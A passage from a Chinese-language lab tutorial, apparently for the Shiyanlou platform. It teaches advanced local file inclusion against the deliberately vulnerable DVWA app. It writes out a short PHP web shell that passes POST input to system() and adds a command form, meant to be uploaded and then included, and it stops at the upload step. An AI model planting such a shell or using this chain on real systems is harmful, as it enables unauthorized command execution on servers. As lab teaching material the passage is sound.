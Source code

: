 
我们可以看到造成这样的问题是因为它没有做任何的防范与过滤，使得攻击者有机可乘，访问设备上所有的文件，透露出很多的内容。

## 7. 文件包含进阶

若是你认为本地文件包含只有这样的能耐就错了，攻击手段往往都是通过多种小技巧，利用程序员的粗心来实现。同样本地文件的包含若是只是常看文件的话，价值还是不够大，不能让它曾经盛极一时。

试想我们若是配置着文件上传的功能，我们能做什么呢？

我们可以使用可以上传一个后门程序，然后让其包含进我们的当前页面，使其运行起来。这样我们不仅能够查看还能执行一些命令。

我们在本地准备这样的一个 php 文件（注意实在本地，也就是 shiyanlou 用户的终端里，而不是在虚拟机中，我们需要上传的）：

在终端中执行 `vim test.php` 来创建与编辑文件：

![start-vim](../imgs/wm_319.png)

然后输入这样的内容：

```
<?php

system($_POST['cmd']);

echo '<form method="post" action="../../hackable/uploads/test.php"><input type="text" name="cmd"/><input type="submit"/></form>';

?>
```

第一句话是为了使用 cmd 来执行命令，第二句是为了提供一个输入框来输入一些命令，这样不用每次都去修改 URL，非常的麻烦（第二句中的地址如何而来，可以看下文便知）。

接着使用 `:wq` 来将其保存。

然后我们再次登陆 dvwa 中，然后进入 Upload 的上传环境：
